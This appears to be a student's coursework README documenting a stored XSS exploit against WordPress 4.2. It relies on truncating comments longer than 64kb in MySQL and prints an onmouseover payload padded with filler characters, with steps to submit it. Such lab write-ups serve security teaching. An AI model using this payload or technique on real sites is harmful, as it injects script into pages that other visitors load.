 # CSU
CyberSecurity University Assignments

Exploit 1
Wordpress version: 4.2

Issue
If the text entered into the comment field exceeds 64kb, the input gets truncated in the MySQL database.  This enables XSS capability.

1.  Use commnad with over 64kb worth of chartacters attached:  <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>

2.  Entered data into comments field on WordPress page

3.  Command executed, in this case, a 'Hello World' pop up alert.

<img src="https://github.com/norcaldre/CSU/blob/master/Exploit1.gif?raw=true" width="800">

